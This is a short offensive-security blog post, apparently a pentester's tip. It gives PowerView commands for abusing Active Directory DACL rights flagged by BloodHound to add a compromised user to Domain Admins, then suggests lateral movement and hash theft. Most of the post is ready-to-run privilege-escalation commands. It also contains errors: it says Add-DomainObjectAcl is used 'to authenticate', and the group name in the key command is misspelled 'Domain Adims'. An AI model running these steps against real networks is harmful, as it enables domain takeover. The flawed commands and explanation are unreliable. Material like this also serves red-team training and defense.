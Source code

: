 ```yaml
---
author: Chris
title: "Quick Pointer: Abusing DACL Fumbles using PowerView"
date: 2024-12-12
tags:
  - powershell
---
```


{% imagesmall '/img/2024-12-11_10-09.png', '' %}
Ever come across an edge description in Boodhound on DACL abuse? They tend to look something like the above.

The Windows abuse instructions on the edge tend to offer two ways to proceed, either using _net group_ from net.exe or PowerView. I've always used the net.exe method, but they recommend PowerView because the opsec for net.exe is challenging.

{% imagesmall '/img/2024-12-12_08-59.png', '' %}
I was curious to play around with PowerView's _Add-DomainGroupMember_ to have another option in my toolbox and find out more about this improved opsec. Unfortunately, I've run into this Bloodhound description enough times to know that the steps for the PowerView method aren't quite as clearly laid out in the Bloodhound description as they could be. I don't think it's Bloodhound's fault, as the [original instructions](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) aren't effusive by any means.

## Adding an Existing User to Domain Admins by Modifying the DACL

To make it clearer, here are the steps to follow on a compromised domain-joined target. This will add an existing user (for which you have obtained a password), who already has DACL privileges over the Domain Admins group, to the Domain Admins group itself. For the sake of this example, lets say the user credentials we've compromised and want to add to Domain Admins is `paul.atreides:spicyworm` on a domain with a short name of _arrakis_.

First, it might pay to ensure you're authenticated to the Domain Controller as a member of the domain. Set up the creds as variables in Powershell and then use _Add-DomainObjectAcl_ to authenticate.

```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity paul.atreides -Rights WriteMembers
```

I'm no PowerShell expert, but you probably don't need to reenter the following two variables again. I'm doing so for the sake of effectiveness.

```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

Now add the existing domain user, paul.atreides, who has DACL privileges over Domain Admins group, to the Domain Admins group.

```
Add-DomainGroupMember -Identity 'Domain Adims' -Members 'paul.atreides' -Credential $Cred
```

Now you can verify whether the operation succeeded.

```
Get-DomainGroupMember -Identity 'Domain Admins'
```

## Moving Forward

If successful, from there your options should open up a bit to lateral movement, or obtaining hashes among other possibilities.

